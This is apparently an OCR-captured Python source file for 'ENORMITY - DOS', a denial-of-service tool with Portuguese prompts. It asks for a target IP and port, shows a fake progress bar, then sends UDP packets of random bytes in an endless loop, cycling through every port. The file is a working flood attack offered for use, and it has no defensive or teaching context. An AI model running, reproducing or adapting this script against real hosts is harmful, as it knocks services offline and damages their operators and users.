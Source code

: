 ENORMITY - DOS

#-*- coding: utf-8 -*-
try:
    from time import sleep
    import os
    import socket
    import random
    import sys
except KeyboardInterrupt:
    print("Você escolheu sair, obrigado!")
    sys.exit()


sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)

r = "\033[1;31m"
c = "\033[1;36m"
y = "\033[1;33m"

os.system("clear")

print()
print(r+"""
ATTACK - DOS
 *
  * * *
   *
     * *
   * *
       *
**

  *
    versão: V1.0
  youtube channel: Zeus Xaloc
Powered by: ENORMITY \n\n""")
try:
    ip = input(c+"IP >>: ")
    port = int(input(c+"Porta >>: "))
except KeyboardInterrupt:
    print(r+"Você escolheu sair, obrigado!")
    sys.exit()

os.system("clear")
print(y+"[                    ] 0%")
sleep(1)
os.system("clear")
print(y+"[=====               ] 25%")
sleep(1)
os.system("clear")
print(y+"[==========          ] 50%")
sleep(1)
os.system("clear")
print(y+"[===============     ] 75%")
sleep(1)
os.system("clear")
print(y+"[====================] 100%")
sleep(3)
os.system("clear")
sent = 0


while True:
    sock.sendto(bytes, (ip,port))
    sent = sent + 1
    port = port + 1
    print (r+"[•]%s ATACANDO %s PARA CANCELAR ^C %s <<<>>>"%(sent,ip,port))


    if port == 65535:
        port = 1

try:
    print (r+"[•]%s ATACANDO %s PARA CANCELAR ^C %s <<<>>>"%(sent,ip,port))
except KeyboardInterrupt:
    print(r+"Você escolheu sair, obrigado!")
    sys.exit()
